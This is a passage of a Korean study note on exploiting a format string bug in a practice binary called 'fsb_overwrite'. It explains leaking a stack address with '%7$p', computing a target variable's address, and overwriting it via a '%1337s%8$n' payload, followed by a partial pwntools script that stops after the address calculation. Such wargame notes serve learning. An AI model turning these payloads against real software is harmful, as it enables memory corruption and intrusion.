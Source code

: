           - `ELF` 나 `ASLR` 이 적용되어도 함수 및 변수의 상대적인 주소는 일정하므로 gdb 로 미리 확인하고 pwntool 로 공격이 가능하다.

     4. `printf` 의 취약점을 활용하여 필요한 메모리 영역을 추출한다. 
        - `printf` 는 format string 을 첫 번째 인자(rdi)로 받고, 두 번째 이상 부터는 format string 에서 호출 될 변수들을 인자로 받는다.
          - `printf("%1$p %2$p %3$p %4$p %5$p %6$p %7$p %8$p %9$p");` 호출시 결과는 rsi, rdx, rcx, r8, r9, rsp[0], rsp[0x08], rsp[0x10] 에 들어있는 값이 출력된다.
          - [PLT/GOT 참조](../../computerscience/computer_science/#sysv)
        - 6번째 변수부터 stack 의 값을 참조하도록 되어있으므로 stack 에 들어있는 메모리 주소를 출력하도록 할 수도 있게 된다.
        - `rsp[8]` 는 `printf` 상에서 `%7$p` 에 해당한다. (메모리 주소 출력을 해야하므로 '%p' 를 사용했다.)
        - `printf("%7$p");` 를 호출하도록 코드를 짜고, 출력된 값에서 + `11548` 을 더하면 target 변수의 주소를 추출 해 낼 수 있다.
     5. `printf` 의 취약점을 활용하여 메모리 영역에 값을 덮어쓴다.
        - 추출된 메모리 영역에 값을 덮어 쓰려면, format string 의 `%n` 기능을 이용한다. 
          - `printf("%s%n");` 은 %s 에서 출력된 문자의 길이만큼 `%n` 에 기록한다.
          - [printf 참조](../../c++/c++/#format-string)
          - 버퍼의 크기가 크지 않아도 큰 수를 `%n` 에 담으려면 format string 의 width 설정을 이용한다. 
            - `printf("%30p")` 는 출력되는 길이가 30 이하라면 모자란 영역을 공백으로 채운다.
        - 종합하면 1337 을 target 변수에 덮어쓰고 싶다면, `"%1337s%8$n......"` 이후에 `target 변수의 주소` 를 이어붙인 문장을 printf 가 출력하게 하면 된다.
          - `%1337s%8$n` 은 rsp[0x10] 의 주소에 1337 값을 넣는 용도이다.
          - `......` + `target 변수의 주소` 부분은 x64 구조의 시스템에서는 `rsp`[0x10] 위치에 `target 변수의 주소` 가 오도록 패딩을 넣은 문자열이다.
          - 프로그램 상에서 `read` 함수 호출에서 받은 데이터가 `rsp` 에 쌓이고 `printf` 를 호출할 때 까지 `rsp` 에 유지됨을 `gdb` 로 확인 했기에 `rsp`[0x10] 에 데이터를 넣을 계획을 세운 것이다.
  - pwntool 을 사용한 코드 예시이다.
      ```
      from pwn import *
      p = process("./fsb_overwrite")
      elf = ELF('./fsb_overwrite')
      ##########
      # 1. get address of 'main + 112' from stack
      ##########
      # send FSB payload
      p.sendline(b"%7$p")
      addr_leak = int(p.recvline()[:-1], 16)

      ##########
      # 2. calculate address main+112 in stack
      ##########
      # calculate address of 'main' function
      addr_main = addr_leak - 112
      print('addr_main:', hex(addr_main))
      # calculate address of target variable 'changeme'
      # 'changeme' is 11660 away from 'main'
      # addr_changeme = addr_main + 11660
      addr_changeme = addr_main + (elf.symbols['changeme'] - elf.symbols['main'])
